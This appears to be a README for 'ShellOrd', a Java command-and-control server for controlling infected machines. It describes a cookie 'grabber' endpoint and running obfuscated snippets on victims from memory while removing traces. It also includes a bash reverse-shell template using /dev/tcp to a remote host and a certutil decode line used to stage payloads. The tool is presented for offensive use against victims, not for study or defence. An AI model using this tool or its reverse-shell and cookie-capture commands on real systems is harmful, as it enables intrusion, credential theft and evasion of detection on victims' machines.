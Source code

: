 🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins. (.jar or .py). 

## Requirements

- Python plugins requires Jython Standalone 2.7.2.
- ShellOrd Server requires Java 17+.
- Import Certificates in format PKCS12 (.p12) to enable SSL or HTTPS.

## Web server - Login

![shellord-login](../_img/shellord-login.gif)

### Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

### Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

`2022-03-12 11:08:20.842 SHELLORD::grabber: Request captured: 'Host: 127.0.0.1 ; GET /info?cookie=captured'`

## Snippets

All snippets are packed, compressed and encrypted in `.mar` (MAR; MIBALTOALEX ARchive) files.
A snippet can contain URIs, binary code, scripts (bash, powershell, etc) and plain text (.c, .py, .java, .rs, .sh, .rb, .bat, .txt, ...).

Allows you to run any obfuscated snippet on the infected client. You can also run any obfuscated snippet from memory to the client in paranoid mode and remove traces.

Example to use parameters in snippets: 
```bash
# bash
bash -c 'exec bash -i &>/dev/tcp/~[[rhost]]/~[[rport]] <&1'
```
```powershell
# powershell
certutil -decode ~[[file_input]] ~[[file_output]]
```

### Example

Example launch calculator on victim (Windows)

![shellord-calc](../_img/shellord_calc.gif)

## Utils

- JVM Reverse Engineering

